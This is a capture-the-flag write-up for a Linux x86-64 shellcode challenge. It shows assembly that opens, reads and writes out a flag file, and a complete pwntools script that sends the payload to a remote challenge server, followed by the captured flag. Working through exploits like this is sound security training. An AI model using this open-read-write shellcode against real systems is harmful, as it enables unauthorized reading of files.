 # **Shellcode - PWN CTF Challenge**

### ***Description***
> Dễ mà tự viết đi trên trên mạng không có đâu
> - Bắt buộc dùng open, read, write để đọc flag
> - Không cần quan tâm đến seccomp
> - Dùng syscall ngoài open, read, write sẽ bị khóa

### ***Exploitation***
---

[link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

[hint](https://drx.home.blog/2019/04/03/pwnable-tw-orw/ )

![checkfile](images\checkfile.png)

![test](images/test.png)

![syscall](images\syscall_syntax.png)

```js
mov 	rbx, %d' % u64(b'.txt\x00\x00\x00\x00')
push 	rbx
mov 	rbx, %d' % u64(b'ongCoDon')
push 	rbx
mov 	rbx, %d' % u64(b'PhaPhaKh')
push 	rbx
```

```js
mov		rdi, rsp		
mov		rsi, 0
mov 	rdx, 0	
mov		rax, 2	
syscall
```

```js
mov		rdi, rax
mov		rsi, rsp
mov		rdx, 0x100
mov 	rax, 0
syscall
```

```js
mov		rdi, 1
mov		rsi, rsp
mov		rdx, rax
mov 	rax, 1
syscall
```

```js
from pwn import *

#p = process('./shellcode')
r = remote('45.122.249.68', 10017)

shellcode = asm('\n'.join([
	'mov rbx, %d' % u64(b'.txt\x00\x00\x00\x00'),
	'push rbx',
	'mov rbx, %d' % u64(b'ongCoDon'),
	'push rbx',
	'mov rbx, %d' % u64(b'PhaPhaKh'),
	'push rbx', 
	'mov	rdi, rsp',		
	'mov	rsi, 0',
	'mov 	rdx, 0',	
	'mov	rax, 2',	
	'syscall',
	'mov	rdi, rax',
	'mov	rsi, rsp',
	'mov	rdx, 0x100',
	'mov 	rax, 0',
	'syscall',
	'mov	rdi, 1',
	'mov	rsi, rsp',
	'mov	rdx, rax',
	'mov 	rax, 1',
    'syscall',
]), arch='amd64', os='linux')

r.recvuntil(b'PhaPhaKhongCoDon.txt\n')
r.sendline(shellcode)
r.interactive()
```

![flag](images/flag.png)

> **FLAG: Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**





